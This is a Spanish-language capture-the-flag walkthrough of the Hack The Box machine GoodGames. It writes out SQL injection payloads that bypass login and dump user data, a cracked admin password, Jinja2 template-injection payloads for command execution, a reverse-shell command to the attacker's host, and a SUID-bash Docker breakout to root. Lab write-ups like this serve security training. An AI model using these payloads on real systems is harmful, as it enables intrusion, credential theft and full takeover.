# Good Games

## Información General

<h3>Dificultad:  </h3>

<h3> Sistema operativo: Linux</h3> 

<h3> Vulnerabilidad explotada.SQLI, SQTI, Docker Breakouts</h3>

<h3> Fecha de resolución: 15/01/2025 </h3>

<h3>Enlace de la mv: <a href="https://app.hackthebox.com/machines/GoodGames" target="_blank"> Good Games </a></h3>

### *Leer el documentro en Ingles:* <a href="goodgames_ingles.md"> Good Games </a>

## Reconocimiento

TryHackme nos proporciona la ip de la máquina objetivo **10.10.11.130**

Voy a establecer en el fichero **/etc/hosts** la **ip de la mv objetivo**, la voy a llamar **goodgames**
### Ping

Dependiendo del resultado podemos deducir si es una máquina linux o window, por ejemplo:

```
ping -c 1 goodgames
```

**Su ttl es 63, por tanto, es Linux**
### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn goodgames
```

<p align="center"> 

</p>

<div align="center">

| Open port | Service | Version                             |
| --------- | ------- | ----------------------------------- |
| 80        | http    | Werkzeug httpd 2.0.2 (Python 3.9.2) |

</div>

#### Escaneo de puerto UDP

```
nmap -sU --top-ports 200 --min-rate=5000 -Pn <Ip de la victima>
```

Todos los puertos que aparecen están cerrados

## Exploración

### Fuzzing web

```
gobuster dir -u http://goodgames/ \
-w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt \
-x txt,py,php,sh \
--exclude-length 9265
```

<p align="center"> 

</p>

```
http://goodgames/
```

<p align="center"> 

</p>

```
http://goodgames/signup
```

<p align="center"> 

</p>

```
http://goodgames/profile
```

<p align="center"> 

</p>

## Explotación

En burpsuite capturamos la navegación del registro de usuario, y escribimos lo siguiente

```
email=adasd@hotmail.com' or 1=1-- -&password=12345
```

Le damos a **Forward**

<p align="center"> 

</p>

Como resultado conseguimos esto:

<p align="center"> 

</p>

Visitamos la siguiente página y observamos que nos hemos registrado como admin.

Recordemos desactivar **FoxyProxy** para continuar

```
http://goodgames/profile
```

<p align="center"> 

</p>

Siendo admin, le damos al **engranaje** y nos llevará a una página 

<p align="center"> 

</p>

Para que funcione nos tendremos que ir al fichero **/etc/hosts/** y añadir la nueva ruta **internal-administration.goodgames.htb**

<p align="center"> 

</p>

**Premio**

Siguiendo con **bupsuite**, quiero saber cuantas columnas tengo en mi bbdd, probaremos con 20 columnas...

```
email=dsjkda@hotmail.com' order by 20-- -&password=12345
```

<p align="center"> 

</p>

Ahora probaremos si hay 4 columnas en nuestra bbdd

<p align="center"> 

</p>

El numero **content-Length** ha cambiado, por tanto, parece que hemos conseguido saber cuantas columnas tenemos, y ademas, si buscamos welcome, me funciona al fin.

<p align="center"> 

</p>

Si pruebo con otros numero, no me funcionaba, ahora queremos saber la bbdd actual q estoy usando.

```
email=dsjkda@hotmail.com' union select 1,2,3,database()-- -&password=12345
```

<p align="center"> 

</p>

La bbd actual es **main**

```
email=dsjkda@hotmail.com' union select 1,2,3,concat(schema_name, ':') from information_schema.schemata-- -&password=12345
```

<p align="center"> 

</p>

Solo hay dos bbdd **main y information_schema**

La bbdd **main** tiene tres tablas 

```
email=dsjkda@hotmail.com' union select 1,2,3,concat(table_name, ':') from information_schema.tables where table_schema = 'main'-- -&password=12345
```

<p align="center"> 

</p>

Tiene 4 columnas la tabla **user** que son **id, email, password y name**

```
email=dsjkda@hotmail.com' union select 1,2,3,concat(id, ':', email, ':', password, ':', name) from user-- -&password=12345
```

<p align="center"> 

</p>

Tenemos un hash **2b22337f218b2d82dfc3b6f77e7cb8ec**

Visitamos la página <a href="https://crackstation.net/" target="_blank"> crackstation </a>

<p align="center"> 

</p>

Por tanto la cosa quedaría de la siguiente manera:

**User**: admin \
**Contraseña**: superadministrator 

Nos situamos en la página **internal-administration.goodgames.htb** introducimos las creedenciales, y hemos entrado

<p align="center"> 

</p>

Si nos vamos al perfil del usuario nos da la oportunidad de editar el nombre, por tanto, vamos a intentar explotar la vulnerabilidad Server-Side Template Injection (SSTI)

```
{{7+7}}
```

<p align="center"> 

</p>

Como resultado...

<p align="center"> 

</p>

Es vulnerable!

En esta Página de GitHub podemos extraer un comando necesario, para sacar información de la página  <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master" target="_blank"> PayloadsAllTheThings </a>

En mi caso me he dado cuenta que la vulnerabilidad es **Server-Side Template Injection**, Dentro de esa carpeta me encuentro que haciendo esto **{{7+7}}** es jinja2 para python. Por tanto, nos vamos a **python.md** y le damos a **jinja2 - remote command execution**. Nos situamos en **Exploit The SSTI By Calling os.popen().read()** y copiamos el comando.

<p align="center"> 

</p>

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

<p align="center"> 

</p>

Este comando nos trata el comando **id** y nos damos cuenta que es **root**...

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('hostname -i').read() }}
```

<p align="center"> 

</p>

Me doy cuenta que la ip no es la misma que la ip de la maquina que estamos atacando.... Esto significa que estamos en un contenedor de docker

## Accedemos a un contenedor

Por tanto, lo que voy hacer a continuación es acceder a este contenedor mediante un **reverse shell** 

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "sh -i >& /dev/tcp/10.10.14.12/4444 0>&1"').read() }}
```

#### TTY

```
script /dev/null -c bash
```
**control z**

```
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Estamos dentro del contenedor, incluido el tratamiento con la tty (Una locura)ss

Para capturar la primera flag nos tenemos que ir **/home/augustus/

```
cat user.txt
```

<p align="center"> 

</p>

**Haciendo los siguientes pasos, averiguo que el usuario augustus no esta 
en el fichero passwd**

```
cat /etc/passwd | grep 1000
cat /etc/passwd | grep augustus
```

<p align="center"> 

</p>

Esto confirma que está montado en un **mount**

```
mount | grep augustus
```

<p align="center"> 

</p>

Estando en esta máquina no tenemos nmap instalado, estaría bueno crear uno para poder saber que puerto tenemos abierto. Este comando es lo más cercano que he podido encontrar para decirte que puerto tiene abierto, pero antes tengo que saber con que ip estoy tratando 

```
ip route
```

<p align="center"> 

</p>

```
for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null
```

<p align="center"> 

</p>

Teniendo el puerto ssh abierto, puedo probar con las credenciales ya tenemos, por ejemplo:

**user**: augustus \
**password**: superadministrator

```
ssh augustus@172.19.0.1
```

<p align="center"> 

</p>

### Escalada de Privilegios

En este punto, la situación resulta tan ingeniosa como absurda: dentro del contenedor Docker tenemos acceso como **root**, y dicho contenedor está conectado directamente a la máquina víctima. Esto significa que, aprovechando esa conexión y los permisos de superusuario en el contenedor, podríamos copiar el directorio `/home/augustus` desde la máquina víctima hacia el contenedor y otorgarle privilegios de administrador. Esto es posible porque no se ha hecho un uso adecuado del aislamiento y la segmentación de la red, lo que permite que el contenedor interactúe libremente con el sistema anfitrión.

Por tanto primero lo que seria es situarme en **augustus/** 

<p align="center"> 

</p>

Luego copiar la bash aquí

```
cp /bin/bash .
```

<p align="center"> 

</p>

```
exit
chown root:root bash
chmod 4755 bash
```

*Con chmod 4755* Esto hace que, cuando el archivo se ejecute, lo haga **con los privilegios del propietario del archivo**, no con los del usuario que lo lanza.

<p align="center"> 

</p>

¿De quién es el propietario el archivo bash? Efectivamente de root. MADRE MÍA 

```
ssh augustus@172.19.0.1
./bash -p
```

En este caso lo que hace **-p** es evitar que te rebaje a los permisos del usuario real.

<p align="center"> 

</p>

Ahora siendo root podemos acceder la flag de root

```
cat /root/root.txt
```

<p align="center"> 

</p>

## Conclusión

En mi opinión, esta máquina está por encima del nivel que se exige para el eJPTv2, pero resulta muy útil para medir el nivel de dificultad que podemos encontrar en retos más avanzados. Lo interesante es que en ella se practican múltiples vectores de ataque en una misma cadena de explotación.

La intrusión comienza en el apartado de registro, donde aprovechamos una **SQL Injection** para acceder directamente como usuario _admin_. A partir de ahí, descubrimos una nueva página que solo es accesible registrando su dominio en el archivo `/etc/hosts`.

Una vez en este nuevo sitio, debemos seguir utilizando **SQLi** para obtener un usuario y una contraseña almacenada en **MD5**, que posteriormente desciframos. Con esas credenciales podemos iniciar sesión en el panel principal.

En el perfil del usuario encontramos una vulnerabilidad **SSTI (Server-Side Template Injection)**, que aprovechamos para obtener una **reverse shell** hacia nuestra máquina atacante. Al acceder al sistema, comprobamos que estamos dentro de un contenedor Docker con privilegios de root.

Para pivotar hacia la máquina anfitriona, investigamos cómo detectar servicios activos desde el contenedor y, mediante un escaneo, descubrimos que **SSH** está abierto. Probamos con usuarios y credenciales obtenidas anteriormente, y logramos acceder a la máquina anfitriona, aunque inicialmente solo con privilegios de usuario.

En este punto, copiamos nuestro binario de `bash` desde la máquina anfitriona hacia un directorio compartido con el contenedor. Una vez dentro del contenedor, modificamos la propiedad y permisos del binario para que sea **SUID root** (`chown root:root` y `chmod 4755`). De esta forma, al ejecutarlo con `./bash -p` desde la máquina anfitriona, obtenemos una shell con privilegios de root y así conseguimos la última flag.


